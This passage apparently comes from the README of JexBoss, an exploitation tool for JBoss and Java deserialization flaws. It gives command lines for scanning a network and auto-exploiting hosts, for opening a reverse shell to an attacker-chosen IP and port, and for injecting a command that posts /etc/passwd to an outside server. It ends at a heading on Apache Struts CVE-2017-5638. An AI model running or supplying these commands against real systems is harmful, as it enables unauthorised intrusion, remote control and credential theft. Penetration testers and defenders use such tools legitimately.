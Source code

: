 * Network scan mode:

```
$ python jexboss.py -mode auto-scan -network 192.168.0.0/24 -ports 8080 -results results.txt
```

* Network scan with auto-exploit mode:

```
$ python jexboss.py -mode auto-scan -A -network 192.168.0.0/24 -ports 8080 -results results.txt
```

* Results and recommendations:


Reverse Shell (meterpreter integration)
---------------------------------------

After you exploit a JBoss server, you can use the own jexboss command shell or perform a reverse connection using the following command:

```
   jexremote=YOUR_IP:YOUR_PORT

   Example:
     Shell>jexremote=192.168.0.10:4444
```

* Example:
  ![alt tag](https://github.com/joaomatosf/jexboss/raw/master/screenshots/jexbossreverse2.jpg)

When exploiting java deserialization vulnerabilities (Application Deserialization, Servlet Deserialization), the default options are: make a reverse shell connection or send a commando to execute.


Usage examples
--------------

* For Java Deserialization Vulnerabilities in a custom HTTP parameter and to send a custom command to be executed on the exploited server:

```
$ python jexboss.py -u http://vulnerable_java_app/page.jsf --app-unserialize -H parameter_name --cmd 'curl -d@/etc/passwd http://your_server'
```

* For Java Deserialization Vulnerabilities in a custom HTTP parameter and to make a reverse shell (this will ask for an IP address and port of your remote host):

```
$ python jexboss.py -u http://vulnerable_java_app/page.jsf --app-unserialize -H parameter_name
```

* For Java Deserialization Vulnerabilities in a Servlet (like Invoker):

```
$ python jexboss.py -u http://vulnerable_java_app/path --servlet-unserialize
```

* For Apache Struts 2 (CVE-2017-5638)
